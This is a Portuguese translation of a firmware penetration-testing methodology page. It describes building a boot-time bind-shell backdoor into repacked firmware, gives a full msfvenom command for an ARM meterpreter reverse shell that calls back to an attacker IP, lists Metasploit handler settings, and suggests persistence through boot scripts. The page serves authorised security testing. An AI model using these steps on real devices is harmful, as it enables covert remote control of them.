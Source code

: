 ### Esta página foi copiada de [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

Tente **fazer upload de firmware personalizado e/ou binários compilados** para encontrar falhas de integridade ou de assinatura. Por exemplo, compile um backdoor bind shell que inicie na inicialização usando os seguintes passos.

1. Extraia o firmware com o firmware-mod-kit (FMK)
2. Identifique a arquitetura do firmware de destino e a ordem dos bytes
3. Construa um compilador cruzado com o Buildroot ou use outros métodos que se adequem ao seu ambiente
4. Use o compilador cruzado para construir o backdoor
5. Copie o backdoor para o firmware extraído /usr/bin
6. Copie o binário QEMU apropriado para o rootfs do firmware extraído
7. Emule o backdoor usando chroot e QEMU
8. Conecte-se ao backdoor via netcat
9. Remova o binário QEMU do rootfs do firmware extraído
10. Empacote o firmware modificado com o FMK
11. Teste o firmware com backdoor emulado com o firmware analysis toolkit (FAT) e conecte-se ao IP e porta do backdoor de destino usando netcat

Se um shell raiz já foi obtido por meio de análise dinâmica, manipulação de bootloader ou meios de teste de segurança de hardware, tente executar binários maliciosos pré-compilados, como implantes ou shells reversos. Considere o uso de ferramentas de carga útil/implante automatizadas usadas para estruturas de comando e controle (C\&C). Por exemplo, o framework Metasploit e o 'msfvenom' podem ser aproveitados usando os seguintes passos.

1. Identifique a arquitetura do firmware de destino e a ordem dos bytes
2. Use o `msfvenom` para especificar a carga útil de destino apropriada (-p), o IP do host do atacante (LHOST=), o número da porta de escuta (LPORT=), o tipo de arquivo (-f), a arquitetura (--arch), a plataforma (--platform linux ou windows) e o arquivo de saída (-o). Por exemplo, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. Transfira a carga útil para o dispositivo comprometido (por exemplo, execute um servidor web local e use wget/curl para transferir a carga útil para o sistema de arquivos) e certifique-se de que a carga útil tenha permissões de execução
4. Prepare o Metasploit para lidar com solicitações de entrada. Por exemplo, inicie o Metasploit com msfconsole e use as seguintes configurações de acordo com a carga útil acima: use exploit/multi/handler,
   * `set payload linux/armle/meterpreter_reverse_tcp`
   * `set LHOST 192.168.1.245 #IP do host do atacante`
   * `set LPORT 445 #pode ser qualquer porta não utilizada`
   * `set ExitOnSession false`
   * `exploit -j -z`
5. Execute o shell reverso meterpreter no dispositivo comprometido
6. Observe as sessões do meterpreter abertas
7. Realize atividades de pós-exploração

Se possível, identifique uma vulnerabilidade nos scripts de inicialização para obter acesso persistente a um dispositivo em reinicializações. Tais vulnerabilidades surgem quando os scripts de inicialização fazem referência, [link simbolicamente](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data) ou dependem de código localizado em locais montados não confiáveis, como cartões SD e volumes flash usados para armazenar dados fora dos sistemas de arquivos raiz.
